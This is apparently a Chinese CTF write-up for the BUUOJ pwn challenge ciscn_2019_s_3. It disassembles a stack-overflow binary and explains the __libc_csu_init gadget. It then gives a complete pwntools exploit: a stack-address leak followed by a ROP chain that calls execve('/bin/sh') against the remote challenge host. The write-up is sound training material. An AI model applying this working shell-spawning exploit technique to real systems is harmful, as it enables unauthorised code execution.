

# ciscn_2019_s_3

[题目地址](https://buuoj.cn/challenges#ciscn_2019_s_3)

好家伙这ghidra就没有效反编译出来一句代码。

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

rop题开个nx意思一下。main函数只调用了vuln函数，vuln函数……

```c
undefined  [16] vuln(void)

{
  syscall();
  syscall();
  return CONCAT88(0x30,1);
}
```

我们还是看汇编吧。

```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined vuln()
             undefined         AL:1           <RETURN>
             undefined1        Stack[-0x18]:1 local_18                                XREF[2]:     004004f9(*), 
                                                                                                   0040050f(*)  
                             vuln                                            XREF[4]:     Entry Point(*), main:00400531(c), 
                                                                                          004005e8, 004006a0(*)  
        004004ed 55              PUSH       RBP
        004004ee 48 89 e5        MOV        RBP,RSP
        004004f1 48 31 c0        XOR        RAX,RAX
        004004f4 ba 00 04        MOV        EDX,0x400
                 00 00
        004004f9 48 8d 74        LEA        RSI=>local_18,[RSP + -0x10]
                 24 f0
        004004fe 48 89 c7        MOV        RDI,RAX
        00400501 0f 05           SYSCALL
        00400503 48 c7 c0        MOV        RAX,0x1
                 01 00 00 00
        0040050a ba 30 00        MOV        EDX,0x30
                 00 00
        0040050f 48 8d 74        LEA        RSI=>local_18,[RSP + -0x10]
                 24 f0
        00400514 48 89 c7        MOV        RDI,RAX
        00400517 0f 05           SYSCALL
        00400519 c3              RET
        0040051a 90              NOP
        0040051b 5d              POP        RBP
        0040051c c3              RET

```

关键的两个syscall倒是出来了，而[64位syscall](https://blog.csdn.net/qq_29328443/article/details/107250889)执行的是什么功能还要看rax。第一个syscall之前有一句XOR        RAX,RAX，这相当于把rax赋值0，对应read；第二个syscall之前的rax赋值为0x1，对应write。再结合传参用的寄存器，翻译成伪代码就是read(0,local_18,0x400),write(1,local_18,0x30)，此处edx等同于rdx，一个高位一个地位罢了。继续看看程序给的其他好东西。

```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined gadgets()
             undefined         AL:1           <RETURN>
                             gadgets                                         XREF[3]:     Entry Point(*), 004005e0, 
                                                                                          00400680(*)  
        004004d6 55              PUSH       RBP
        004004d7 48 89 e5        MOV        RBP,RSP
        004004da 48 c7 c0        MOV        RAX,0xf
                 0f 00 00 00
        004004e1 c3              RET
        004004e2 48 c7 c0        MOV        RAX,0x3b
                 3b 00 00 00
        004004e9 c3              RET
        004004ea 90              NOP
        004004eb 5d              POP        RBP
        004004ec c3              RET
```

直接上汇编了，压根没有能看的伪代码。gadget给了两段有关rax的，结合syscall的[系统调用号表](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/),分别是0xf：sys_rt_sigreturn；0x3b：sys_execve。这题有两种解法，一个跟着[wp](http://liul14n.top/2020/03/07/Ciscn-2019-s-3/)走比较简单的系统调用，另一个是学习[srop](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/advanced-rop/srop/)。我毅然决然地选择了简单的，难的东西迫不得已时再学吧:P

利用syscall getshell无非就是传个调用号和参数。调用号有了，参数是execve("/bin/sh",0,0)，3个参数有点棘手。还好我们有万能gadgegt——[__libc_csu_init](https://xz.aliyun.com/t/5597)。这个函数无论在ida还是ghidra里都能找到，重点看其中一段汇编。

```
                             LAB_00400580                                    XREF[1]:     00400594(j)  
        00400580 4c 89 ea        MOV        RDX,R13
        00400583 4c 89 f6        MOV        RSI,R14
        00400586 44 89 ff        MOV        EDI,R15D
        00400589 41 ff 14 dc     CALL       qword ptr [R12 + RBX*0x8]=>->frame_dummy         = 400490h
                                                                                             undefined frame_dummy()
                                                                                             = 4004B0h
                                                                                             undefined __do_global_dtors_aux()
        0040058d 48 83 c3 01     ADD        RBX,0x1
        00400591 48 39 eb        CMP        RBX,RBP
        00400594 75 ea           JNZ        LAB_00400580
                             LAB_00400596                                    XREF[1]:     00400574(j)  
        00400596 48 83 c4 08     ADD        RSP,0x8
        0040059a 5b              POP        RBX
        0040059b 5d              POP        RBP
        0040059c 41 5c           POP        R12
        0040059e 41 5d           POP        R13
        004005a0 41 5e           POP        R14
        004005a2 41 5f           POP        R15
        004005a4 c3              RET
```

这两个label不同函数可能会有变化，但是识别关键就在那一连串的pop，找到它们后往上再走一个label就是了。不是所有的pwn题都有这个函数，而且需要的栈空间比较多，要求布置六个寄存器（rbx/rbp/r12/r13/r14/r15）加一个 ret 返回地址，x64 下至少需要 56 个字节的栈空间。如果再算上将 rip 指令跳转进来（0x40061A）的一个 ret 地址，那就是 64 字节的栈空间。但是一旦符合就真的无敌了。一张图清楚怎么使用。



图是大佬的文章找的，这个0x40061a和0x400600就是刚才提到的两个label，第一个地址是一堆pop的label的POP        RBX处，第二个地址就是上一个label的起始地址。更简单的[记法](https://blog.csdn.net/weixin_44681716/article/details/89057022)：

```
pop     rbx      //为了减小后面利用难度，将rbx取值为0
pop     rbp      //将rbp取值为1，通过检测，使检验避过。
pop     r12     //这里存放我们最后跳转目标函数地址
pop     r13    //传入第一个参数
pop     r14    //第二个参数
pop     r15  //第三个参数
```

照着它压栈，一般没问题。rbx和rbp有要求主要是因为这三：

```
0040058d 48 83 c3 01     ADD        RBX,0x1
00400591 48 39 eb        CMP        RBX,RBP
00400594 75 ea           JNZ        LAB_00400580
```

把rbx加上1，比较rbx和rbp，不相等就又来一遍，最简单的方式就是设置rbx为0，rbp为1。然而这题剑走偏锋，就是要它们不一样，这样我们可以执行两次LAB_00400580的内容。要先拿exp出来才行。

```python
from pwn import *
c = remote('node4.buuoj.cn',25104)
main = 0x4004ED

execv = 0x4004E2
'''
.text:00000000004004E2 ; 
.text:00000000004004E2                 mov     rax, 59
.text:00000000004004E9                 retn
'''

syscall = 0x400517
'''
.text:0000000000400517                 syscall                 ;
.text:0000000000400519                 retn                    ;
'''

p6r = 0x40059A
'''
.text:000000000040059A                 pop     rbx
.text:000000000040059B                 pop     rbp
.text:000000000040059C                 pop     r12
.text:000000000040059E                 pop     r13
.text:00000000004005A0                 pop     r14
.text:00000000004005A2                 pop     r15
.text:00000000004005A4                 retn
'''

movcall = 0x400580
'''
.text:0000000000400580 loc_400580:
.text:0000000000400580                 mov     rdx, r13
.text:0000000000400583                 mov     rsi, r14
.text:0000000000400586                 mov     edi, r15d
.text:0000000000400589                 call    qword ptr [r12+rbx*8]
.text:000000000040058D                 add     rbx, 1
.text:0000000000400591                 cmp     rbx, rbp
.text:0000000000400594                 jnz     short loc_400580
'''

pop_rdi_ret = 0x00000000004005a3
'''
0x00000000004005a3 : pop rdi ; ret
'''

payload = b'/bin/sh\x00' + b'b'*8 + p64(main)
c.send(payload)
offset = 0x118
binsh = u64(c.recv()[32:40]) - 0x118
log.success('binsh = ' + hex(binsh))

payload = b'/bin/sh\x00' + b'b'*8 + p64(p6r)
payload += p64(0)*2 + p64(binsh + 0x50) + p64(0)*3
payload += p64(movcall) + p64(execv)
payload += p64(pop_rdi_ret) + p64(binsh) + p64(syscall)

c.send(payload)

c.interactive()
```

看send的第二个payload，两个p64（0）是rbx和rbp，p64(binsh + 0x50)是要执行的函数地址的指针，套娃指向gadget，都是大佬调试调出来的，我自己调试发现那地方啥也没有。p64(0)\*3是传入的3个参数。看到这里觉得不对啊，rdi不应该是/bin/sh吗？事后我也试了一下，直接传binsh不行，很奇怪。既然两者不相等，整个loc_400580又来一遍，此时rbx是1，rdi，rsi，rdx都是0。这时走到call    qword ptr [r12+rbx\*8]，就是p64(execv)，这个执行完后会到pop_rdi_ret，剩下的就是正常rop了。

最后的难题是泄露地址，在接收输入后下断点调试可发现栈里面不是空的。

```
(gdb) $ x/8g $rbp-0x10-8
0x7ffd35f38de8:    0x0000000000000000    0x0068732f6e69622f
0x7ffd35f38df8:    0x6262626262626262    0x00000000004004ed
0x7ffd35f38e08:    0x0000000000400536    0x00007ffd35f38f38
0x7ffd35f38e18:    0x0000000100000000    0x0000000000000001
```

发现有个地址0x00007ffd35f38f38，这个地址和binsh的差值永远是0x118，write时会打它的地址，接收输入后相减就好了。